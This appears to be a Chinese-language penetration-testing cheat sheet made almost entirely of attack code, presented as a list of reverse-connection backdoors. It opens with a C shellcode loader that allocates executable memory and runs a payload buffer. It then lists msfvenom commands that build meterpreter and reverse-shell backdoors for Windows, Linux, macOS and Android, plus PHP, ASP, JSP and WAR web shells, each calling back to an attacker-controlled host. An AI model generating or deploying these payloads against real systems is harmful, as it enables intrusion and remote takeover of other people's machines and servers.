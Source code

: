 ```bash

	Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	memcpy(Memory, buf, sizeof(buf));

	((void(*)())Memory)();

}
```


### 生成典型payload：各系统下的反向连接后门

reverse_tcp 支持以下平台：
Platform: Android, BSD, Java, JavaScript, Linux, OSX, NodeJS, PHP, Python, Ruby, Solaris, Unix, Windows, Mainframe, Multi

```
#win x86
msfvenom -p windows/meterpreter/reverse_tcp lhost=[AttackerIP] lport=4444 -f exe -o /tmp/my_payload.exe
x86下 -p后加: windows/../..
没有这种名字的载荷: windows/x86/../.. 


#linux x86
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[AttackerIP] LPORT=[AttackerPort] -f elf > shell.elf

#Mac x64
msfvenom -p osx/x64/shell_reverse_tcp LHOST=[AttackerIP] LPORT=[AttackerPort] -f macho > shell.macho


#android
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=4444 R > androvirus.apk
```

Web

```
#PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=[AttackerIP] LPORT=[AttackerPort] -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

#.ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[AttackerIP] LPORT=[AttackerPort] -f asp > shell.asp

#.JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[AttackerIP] LPORT=[AttackerPort] -f raw > shell.jsp

#java    .WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[AttackerIP] LPORT=[AttackerPort] -f war > shell.war
```
